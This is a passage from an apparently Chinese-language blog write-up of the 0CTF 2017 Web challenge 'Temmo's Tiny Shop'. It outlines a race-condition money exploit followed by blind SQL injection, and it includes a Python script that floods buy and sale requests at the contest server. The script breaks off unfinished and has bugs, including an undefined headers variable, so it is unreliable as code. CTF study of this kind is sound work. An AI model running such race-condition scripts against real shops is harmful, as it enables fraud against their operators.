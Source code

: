 ```yaml
---
title: 0CTF 2017 Web  Write-up
subtitle: CTF
time: 2017.03.21 10:00:00
layout: post
catalog: true
tags:
- CTF
- Web

excerpt: 0ctf 2017 Web题目学习与分析

---
```


# 0CTF



## Temmo's Tiny Shop

这是一个小型的购物网站，然后官方的解法应该是先刷钱（竞争？）买一个Hint，然后得到flag所在的表，再对order by后面数据进行盲注，得到flag。

对于竞争，我们几个人尝试了N种竞争方式，还是没竞争出来十分迷。（尝试的有，BUY和SALE相互竞争。多个PHPSESSION相互竞争都不行orz）

其中一个脚本

```python
#!/usr/bin/env python
# coding:utf-8
import requests
import time
import threading

#拼接url
host = "http://202.120.7.197"
url1 = host + "/app.php?action=buy&id=6"
url2 = host + "/app.php?action=sale&id=6"

headers1 = {'Cookie' : 'PHPSESSID=7i10kv9ntqokeuta27hrkh4532'}
headers1 = {'Cookie' : 'PHPSESSID=7i10kv9ntqokeuta27hrkh4533'}
# s = requests.get(url1,headers=headers)
# #打印返回结果
# print(s)
# print(s.status_code,s.text)

def buy():
	try:
		while True:
			print requests.get(url1,headers=headers).content
	except:
		pass

def sale():
	try:
		while True:
			print requests.get(url2,headers=headers).content
	except:
		pass



while 1:
```